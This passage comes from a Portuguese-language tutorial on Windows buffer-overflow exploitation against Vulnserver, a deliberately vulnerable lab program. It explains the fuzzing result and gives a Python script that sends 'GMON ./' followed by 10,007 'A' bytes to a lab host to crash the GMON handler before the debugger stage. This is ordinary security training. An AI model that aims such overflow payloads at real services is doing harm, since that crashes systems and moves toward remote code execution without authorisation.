 Podemos ver que o script parou ao enviar 10.007 bytes constituidos da repetição de “./././”, se voltarmos ao codigo fonte que analisamos no inicio, veremos que o GMON espera receber “/” para ativar a função vulnerável.

Vamos esboçar nosso script.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * offset

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```

Preparando o vulnserver no Immunity Debbuger, vamos ver seu comportamento.

![Enumaração do comando.](/img/std/winbof/winbof-48.png)
